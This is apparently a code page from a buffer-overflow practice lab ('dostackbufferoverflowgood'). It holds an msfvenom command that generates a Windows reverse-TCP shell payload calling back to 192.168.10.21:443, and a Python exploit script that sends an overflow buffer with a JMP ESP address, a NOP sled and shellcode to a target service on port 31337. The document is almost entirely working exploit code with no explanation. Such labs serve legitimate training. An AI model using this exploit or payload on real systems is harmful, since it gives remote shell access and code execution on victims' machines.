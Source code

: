 ```bash
luc@kali:~/dostackbufferoverflowgood$ msfvenom -p windows/shell_reverse_tcp -b '\x00\x0a' -f python --var-name shellcode EXITFUNC=thread LHOST=192.168.10.21 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
...
shellcode =  b""
shellcode += b"\xdd\xc5\xba\x64\xc9\xbf\xf9\xd9\x74\x24\xf4"
shellcode += b"\x58\x31\xc9\xb1\x52\x31\x50\x17\x83\xc0\x04"
...
shellcode += b"\xde\x18\xa7\x24\x5d\xa8\x58\xd3\x7d\xd9\x5d"
shellcode += b"\x9f\x39\x32\x2c\xb0\xaf\x34\x83\xb1\xe5"
```

```python
#!/usr/bin/python2
import socket
import struct

try:
    print "\nSending evil buffer..."

    bufferSize = 2000
    offset = 146

    jmp_esp = 0x080414c3

    shellcode =  b""
    shellcode += b"\xdb\xca\xd9\x74\x24\xf4\xbb\x7e\x9d\x36\xab"
    shellcode += b"\x58\x29\xc9\xb1\x31\x31\x58\x18\x83\xc0\x04"
    shellcode += b"\x03\x58\x6a\x7f\xc3\x57\x7a\xfd\x2c\xa8\x7a"
    shellcode += b"\x62\xa4\x4d\x4b\xa2\xd2\x06\xfb\x12\x90\x4b"
    shellcode += b"\xf7\xd9\xf4\x7f\x8c\xac\xd0\x70\x25\x1a\x07"
    shellcode += b"\xbe\xb6\x37\x7b\xa1\x34\x4a\xa8\x01\x05\x85"
    shellcode += b"\xbd\x40\x42\xf8\x4c\x10\x1b\x76\xe2\x85\x28"
    shellcode += b"\xc2\x3f\x2d\x62\xc2\x47\xd2\x32\xe5\x66\x45"
    shellcode += b"\x49\xbc\xa8\x67\x9e\xb4\xe0\x7f\xc3\xf1\xbb"
    shellcode += b"\xf4\x37\x8d\x3d\xdd\x06\x6e\x91\x20\xa7\x9d"
    shellcode += b"\xeb\x65\x0f\x7e\x9e\x9f\x6c\x03\x99\x5b\x0f"
    shellcode += b"\xdf\x2c\x78\xb7\x94\x97\xa4\x46\x78\x41\x2e"
    shellcode += b"\x44\x35\x05\x68\x48\xc8\xca\x02\x74\x41\xed"
    shellcode += b"\xc4\xfd\x11\xca\xc0\xa6\xc2\x73\x50\x02\xa4"
    shellcode += b"\x8c\x82\xed\x19\x29\xc8\x03\x4d\x40\x93\x49"
    shellcode += b"\x90\xd6\xa9\x3f\x92\xe8\xb1\x6f\xfb\xd9\x3a"
    shellcode += b"\xe0\x7c\xe6\xe8\x45\x62\x04\x39\xb3\x0b\x91"
    shellcode += b"\xa8\x7e\x56\x22\x07\xbc\x6f\xa1\xa2\x3c\x94"
    shellcode += b"\xb9\xc6\x39\xd0\x7d\x3a\x33\x49\xe8\x3c\xe0"
    shellcode += b"\x6a\x39\x5f\x67\xf9\xa1\x8e\x02\x79\x43\xcf"

    buffer = ""
    buffer += "A" * (offset - len(buffer))
    buffer += struct.pack("<I", jmp_esp)
    buffer += "\x90" * 12
    buffer += shellcode
    buffer += "\x90" * (bufferSize - len(buffer))
    buffer += "\n"

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.10.129", 31337))
    s.send(buffer)

    s.close

    print "\n Send buffer with size: " + str(len(buffer))
```